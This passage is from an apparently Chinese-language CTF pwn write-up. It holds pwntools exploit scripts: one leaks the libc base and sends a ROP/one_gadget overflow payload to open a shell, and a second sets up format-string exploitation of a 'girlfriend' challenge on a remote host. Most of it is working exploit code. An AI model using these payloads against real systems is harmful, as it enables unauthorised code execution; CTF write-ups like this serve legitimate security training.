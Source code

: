 ```Python
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.info(f'puts_addr: {hex(puts_addr)}')
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
pop_rdi = libc_base + 0x2a3e5
gadget = [0xebd38, 0xebd3f, 0xebd43, 0xebc85, 0xebc88]
pop_r12 = libc_base + 0x35731

payload = p64(0x0).ljust(0x218, b'a') + b'\x18\x02\x00\x00\x1f\x00'
payload += p64(0x404999)
payload += p64(pop_r12) + p64(0)
payload += p64(libc_base + gadget[0])
# payload += p64(ret)
# payload += p64(pop_rdi)
# payload += p64(binsh_addr)
# payload += p64(system_addr)

# gdb.attach(p, 'b *0x401261')
p.sendline(payload)

p.interactive()
```

# Girlfriend

综合类型的题目，可以用格式化字符串漏洞泄漏出栈地址，libc地址和code段基址。

题目没给libc版本，也没有gadgets，也不能修改got表，本来以为要用非栈上格式化字符串漏洞去做，后来师傅说去靶机上找到libc版本是2.35，就可以构造ORW了。

```Python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
ip, port = "47.94.172.18:22711".split(":")
elf_path = './girlfriend'
libc_path = "./libc.so.6"
local = False
debug = True
debugger = '''
    b main
'''
if local:
    p = process(elf_path)
    if debug:
        gdb.attach(p, debugger)
else:
    p = remote(ip, port)

def choose(idx):
    p.sendlineafter(b'Choice:\n', str(idx).encode())

def Reply(name):
    choose(3)
    p.sendafter(b'first\n', name)

def Buyflower():
    choose(2)
    p.sendlineafter(b'Y/N\n', b'Y')

def girlfriend(say):
    choose(1)
    p.sendlineafter(b'her?\n', say)
```